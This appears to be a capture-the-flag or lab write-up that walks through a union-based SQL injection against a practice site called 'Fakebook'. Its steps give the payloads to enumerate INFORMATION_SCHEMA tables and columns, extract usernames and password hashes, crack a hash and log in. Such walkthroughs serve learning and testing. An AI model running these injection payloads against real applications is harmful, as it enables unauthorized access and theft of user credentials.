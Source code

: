 # Fakebook SQL Injection Walkthrough

## Step 1: Test for Input Type
Use the following payload:
```sql
1 OR 1=1--
```

This tells us that the input type is an integer.
Observation: Quotes (') are filtered.


## Step 2: Check the Number of Output Columns
Use the following query:
```sql
1 UNION SELECT null FROM INFORMATION_SCHEMA.tables;-- -
```
Result: There is only one output column.

## Step 3: Find the Table Name
Use the following query:

```sql
1 UNION SELECT table_name FROM INFORMATION_SCHEMA.tables;-- -
```
Result: Two relevant tables are identified:
FAKEBOOK, USERS

## Step 4: Retrieve Column Names of Relevant Tables
Use the following query:
```sql
1 UNION SELECT CONCAT(table_name, CHAR(44), column_name) FROM INFORMATION_SCHEMA.columns;-- -
```
# Explanation:
Since there is only one output column, we must concatenate the string to show both the table name and its columns.
CHAR(44) is the ASCII code for a comma (,), allowing better visual separation between table names and column names.

# Observations:
The FAKEBOOK table contains:
username, password
The USERS table does not have relevant columns.

## Step 5: Retrieve All Usernames and Passwords
Use the following query:

```sql
1 UNION SELECT CONCAT(username, CHAR(44), password) FROM fakebook;-- -
```


Result: Retrieves a list of usernames and their hashed passwords from the FAKEBOOK table.

## Step 6: Decode the Password
The retrieved passwords are hashed.
Use a hash decoder to decrypt the password.
Decoded Password: adawong
## Step 7: Login
Use the extracted username and the decoded password to log in.
